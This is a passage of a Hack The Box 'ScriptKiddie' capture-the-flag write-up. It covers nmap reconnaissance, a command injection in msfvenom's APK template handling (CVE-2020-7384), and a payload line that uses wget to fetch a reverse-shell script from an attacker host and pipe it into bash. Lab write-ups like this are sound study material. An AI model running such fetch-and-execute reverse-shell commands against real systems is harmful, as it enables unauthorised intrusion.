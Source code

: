 ```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/ScriptKiddie]
└─$ sudo nmap 10.10.10.226 -oN scans/open-ports.txt -sT -sC -sV -Pn -p22,5000
...
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.33 seconds
```

Nmap discovered two services running on the target: an ssh service on port 22 revealing the exact build version of openssh and a python web server running on a non traditional port.

![Pasted image 20210421103447.png](../../zzz_res/attachments/Pasted_image_20210421103447.png)

It was searched for known exploit targeting Werkzeug: 

![Pasted image 20210421104830.png](../../zzz_res/attachments/Pasted_image_20210421104830.png)

However for the current target the *debug shell* was not enabled.

Current web application **features depended** on different **external tools** (nmap, msfvenom and searchsploit), one of which vulnerable to **APK template command injection**. 

![Pasted image 20210421122525.png](../../zzz_res/attachments/Pasted_image_20210421122525.png)

## Foothold

The version of msfvenom used by the web application was vulnerable to **APK template command injection** (CVE-2020-7384). Metasploit msfvenom framework handles APK files in a way that **allows for a malicious user to craft and publish a file that would execute arbitrary commands** on a victim’s machine.

Because the web site **allowed to upload different files used as template by msfvenom**, this was a solid path to follow (since no msfvenom version was obtained earlier).

The PoC used to craft the malicious APK was the following: [Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/49491)

The payload was then changed to **download and execute a reverse shell** on the victim machine:

```python
...
# Change me
payload = 'wget -O - 10.10.14.14/revshell.sh | bash'
...
```
